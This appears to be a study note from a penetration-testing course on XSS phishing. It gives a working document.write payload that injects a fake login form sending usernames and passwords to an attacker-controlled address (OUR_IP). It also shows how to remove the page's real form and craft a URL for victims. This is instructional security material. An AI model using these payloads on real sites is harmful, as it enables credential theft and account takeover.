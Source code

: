 # Phishing

- utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker
- injecting fake login form that send the login details to the attacker's server which may then be used to login on behalf of the victim and gain control over their account and sensitive information
- steps for phishing
	- suppose we have a website which contains online image viewer and we can input a URL of an image and it'll display it

## XSS Discovery

- try to get working XSS payload which will execute the JS command
- to understand which payload should work, try to view how your input is displayed in the HTML source after you add it

## Login Form Injection

1. Form Injection

- once we identify a working XSS payload, we can proceed to the phishing attack
- to perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page
- this form should send the login information to a server we are listening on
- html code form may look like
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

- next, we should prepare the XSS code and test it on the vulnerable form
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

2. Cleaning up

- to clean up, we can use `document.getElementById().remove()` function
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

- we can now copy the final url which may look like
```
http://vuln-site.com/index.php?url=...Payload...
```
to victims and attempt to trick them into using the fake login form

---